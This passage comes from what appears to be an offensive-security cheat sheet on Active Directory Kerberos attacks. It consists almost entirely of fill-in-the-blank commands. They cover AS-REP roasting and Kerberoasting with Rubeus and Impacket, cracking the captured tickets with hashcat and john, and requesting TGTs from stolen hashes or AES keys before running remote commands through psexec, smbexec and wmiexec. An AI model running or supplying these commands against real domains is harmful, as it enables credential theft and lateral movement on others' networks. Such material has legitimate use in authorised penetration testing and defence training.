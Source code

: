 Rubeus:

```python
# check ASREPRoast for all users in current domain
.\\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

Cracking with dictionary attack:

```python
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```

### Kerberoasting

Impacket ([GetUserSPNs.py](http://getuserspns.py)):

```python
GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```

Rubeus:

```python
.\\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

Cracking with dictionary attack:

```python
hashcat -m 13100 --force <TGSs_file> <passwords_file>

john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
```

### Overpass The Hash/Pass The Key (PTK-Attack)

Impacket:

```python
# Request the TGT with hash
getTGT.py <domain_name>/<username> -hashes [lm_hash]:<ntlm_hash>

# Request the TGT with aesKey
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>

# Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]

# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
